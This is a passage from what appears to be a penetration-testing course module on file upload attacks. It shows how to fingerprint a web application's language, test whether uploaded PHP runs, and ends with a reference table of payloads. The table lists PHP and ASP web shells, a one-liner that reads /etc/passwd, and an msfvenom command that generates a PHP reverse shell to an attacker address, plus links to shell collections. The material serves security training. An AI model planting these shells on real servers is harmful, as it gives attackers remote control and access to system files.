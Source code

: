 Several other techniques may help identify the technologies running the web application, like using the [Wappalyzer](https://www.wappalyzer.com/) extension, which is available for all major browsers. Once added to our browser, we can click its icon to view all technologies running the web application:
![file_uploads_wappalyzer](https://academy.hackthebox.com/storage/modules/136/file_uploads_wappalyzer.jpg)

As we can see, not only did the extension tell us that the web application runs on PHP, but it also identified the type and version of the web server, the back-end operating system, and other technologies in use. These extensions are essential in a web penetration tester's arsenal, though it is always better to know alternative manual methods to identify the web framework, like the earlier method we discussed.

We may also run web scanners to identify the web framework, like Burp/ZAP scanners or other Web Vulnerability Assessment tools. In the end, once we identify the language running the web application, we may upload a malicious script written in the same language to exploit the web application and gain remote control over the back-end server.

### Vulnerability Identification

Now that we have identified the web framework running the web application and its programming language, we can test whether we can upload a file with the same extension. As an initial test to identify whether we can upload arbitrary PHP files, let's create a basic `Hello World` script to test whether we can execute PHP code with our uploaded file.

To do so, we will write `<?php echo "Hello HTB";?>` to `test.php`, and try uploading it to the web application.

If the file appears to have successfully been uploaded, for example we get a message saying **File successfully uploaded**, which means that **the web application has no file validation whatsoever on the back-end**. Now, we can click the **Download** button, and the web application will take us to our uploaded file:
![file_uploads_hello_htb](https://academy.hackthebox.com/storage/modules/136/file_uploads_hello_htb.jpg)

As we can see, the page prints our `Hello HTB message`, which means that the `echo` function was executed to print our string, and we successfully executed PHP code on the back-end server. If the page could not run PHP code, we would see our source code printed on the page.

In the following table several command references are shown:

**Web Shells**

| Web Shell | Description |
| --------- | ----------- |
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shell](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |
